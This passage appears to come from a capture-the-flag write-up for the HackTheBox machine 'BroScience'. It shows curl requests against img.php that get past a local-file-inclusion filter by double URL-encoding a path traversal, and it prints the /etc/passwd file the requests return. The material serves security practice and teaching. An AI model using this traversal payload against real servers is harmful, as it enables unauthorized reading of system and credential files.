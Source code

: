 `activate.php` requires a `code` variable to be input. Perhaps this is the place we go to activate our registered accounts.

### LFI in img.php

When heading to the `/includes` directory, we can find some other PHP files that could contain credentials.

<figure><img src="../../../.gitbook/assets/image (29) (5).png" alt=""><figcaption></figcaption></figure>

Out of all of them, `img.php` requires a `path` parameter to be passed to it. It also detects LFI

```bash
$ curl -k https://broscience.htb/includes/img.php
<b>Error:</b> Missing 'path' parameter. 
$ curl -k https://broscience.htb/includes/img.php?path=/etc/passwd
<b>Error:</b> Attack detected.
```

We can attempt to read the db\_connect.php file somehow. I attempted to double URL encode the `path` value, and it worked!

```bash
$ curl -k https://broscience.htb/includes/img.php?path=..%252F..%252F..%252F..%252F..%252F..%252Fetc%252Fpasswd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
tss:x:103:109:TPM software stack,,,:/var/lib/tpm:/bin/false
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:105:111:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:106:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:107:115:RealtimeKit,,,:/proc:/usr/sbin/nologin
sshd:x:108:65534::/run/sshd:/usr/sbin/nologin
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
avahi:x:110:116:Avahi mDNS daemon,,,:/run/avahi-daemon:/usr/sbin/nologin
speech-dispatcher:x:111:29:Speech Dispatcher,,,:/run/speech-dispatcher:/bin/false
pulse:x:112:118:PulseAudio daemon,,,:/run/pulse:/usr/sbin/nologin
saned:x:113:121::/var/lib/saned:/usr/sbin/nologin
colord:x:114:122:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
geoclue:x:115:123::/var/lib/geoclue:/usr/sbin/nologin
Debian-gdm:x:116:124:Gnome Display Manager:/var/lib/gdm3:/bin/false
bill:x:1000:1000:bill,,,:/home/bill:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
postgres:x:117:125:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
_laurel:x:998:998::/var/log/laurel:/bin/false
```
